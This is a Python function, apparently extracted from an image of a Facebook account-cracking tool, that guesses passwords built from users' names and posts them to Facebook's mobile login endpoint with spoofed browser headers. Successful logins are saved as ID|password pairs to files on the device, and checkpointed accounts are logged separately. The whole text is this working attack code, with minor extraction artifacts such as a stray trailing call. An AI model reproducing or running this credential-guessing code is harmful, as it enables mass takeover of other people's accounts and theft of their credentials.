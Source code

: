 def m4(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [\033[1;32mANONYMOUS] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'ANONYMOUS'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'x.facebook.com', 'viewport-width': '980',  'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [\033[1;32mANONYMOUS\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/ANONYMOUS•OK•M4.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [ANONYMOUS•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/ANONYMOUS•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1


Fof()
